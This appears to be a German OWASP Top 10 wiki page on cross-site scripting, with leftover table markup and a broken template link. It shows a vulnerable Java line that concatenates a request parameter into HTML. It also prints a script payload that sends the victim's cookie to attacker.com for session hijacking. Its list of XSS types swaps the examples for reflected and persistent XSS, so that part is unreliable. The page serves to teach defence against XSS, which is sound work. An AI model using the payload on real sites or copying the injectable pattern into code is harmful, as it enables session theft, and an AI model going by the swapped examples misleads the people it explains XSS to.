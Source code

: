` `

`    <td ``>Jeder, der nicht ausreichend geprüfte Daten an das System übermitteln kann: externe und interne Nutzer, sowie Administratoren.`

</td>

`    <td ``>Der Angreifer sendet textbasierte Angriffsskripte, die Eigenschaften des Browsers ausnutzen. Fast jede Datenquelle kann einen Angriffsvektor beinhalten, auch interne Quellen wie Datenbanken.`

</td>

`    <td colspan=2  ``>`

XSS ist die am weitesten verbreitete Schwachstelle in Webanwendungen.
XSS-Schwachstellen treten dann auf, wenn die Anwendung vom Benutzer
eingegebene Daten übernimmt, ohne sie hinreichend zu validieren und
Metazeichen als Text zu kodieren. Es gibt drei Typen von
XSS-Schwachstellen: 1) Persistent, 2) nicht-persistent/reflektiert, und
3) DOM-basiert (lokal). Die meisten XSS-Schwachstellen sind
verhältnismäßig einfach mit Hilfe von Tests oder Code-Analyse zu
erkennen.

</td>

`    <td ``>Angreifer können Skripte im Browser des Opfers ausführen und die Session übernehmen, Webseiten entstellen, falsche Inhalte einfügen, Benutzer umleiten, den Browser des Benutzers durch Malware übernehmen.`

</td>

`    <td ``>`

Berücksichtigen Sie den geschäftlichen Nutzen des betroffenen Systems
und der verarbeiteten Daten. Bedenken Sie ebenfalls die Auswirkung auf
das Unternehmen bei Bekanntwerden der Schwachstelle.

</td>

Die Anwendung übernimmt nicht vertrauenswürdige Daten, die nicht auf
Gültigkeit geprüft oder escaped werden, um folgenden HTML-Code zu
generieren: <span style="color:red;">(String) page += "\<input
name='creditcard' type='TEXT' value='" **+ request.getParameter("CC")**
+ "'\>";</span> Der Angreifer ändert den Parameter
<span style="color:red;">**‘CC’**</span> in seinem Browser auf:
<span style="color:red;">**'\>\<script\>document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie\</script\>'**</span>. Dadurch wird die Session-ID
des Benutzers an die Seite des Angreifers gesendet, so dass der
Angreifer die aktuelle Benutzersession übernehmen kann. Beachten Sie
bitte, dass Angreifer XSS auch nutzen können, um jegliche CSRF-Abwehr
der Anwendung zu umgehen. A8 enthält weitere
[text=documentRootTop10DeveloperEdition]({{Top_10:LanguageFile "wikilink").

Es wird zwischen 3 Varianten für XSS unterschieden:

1.  **Reflektiert bzw. nicht persistent:** Die Benutzereingabe wird
    direkt von der Webanwendung zum Benutzer zurück gesendet. Enthält
    die Eingabe schädlichen Skriptcode, wird dieser im Browser des
    Benutzers ausgeführt. Bsp.: Benutzerforen, Gästebuch,...
2.  **beständig bzw. persistent**: schädlicher Skriptcode wird zunächst
    in der Webanwendung gespeichert und erst später bei Anfragen
    ausgeliefert. Bsp.: Suchergebnisse, Fehlermeldungen oder andere
    Antworten des Webservers, die Teile der Eingabe enthalten.
3.  **DOM-basiert oder lokal**: Schadcode wird direkt an ein
    client-seitiges Skript übergeben. Die Webanwendung ist überhaupt
    nicht beteiligt. Bsp: /\* Falls die Webseite
    'http://www.example.com/test.html' folgenden Source-Code enthält
    \*/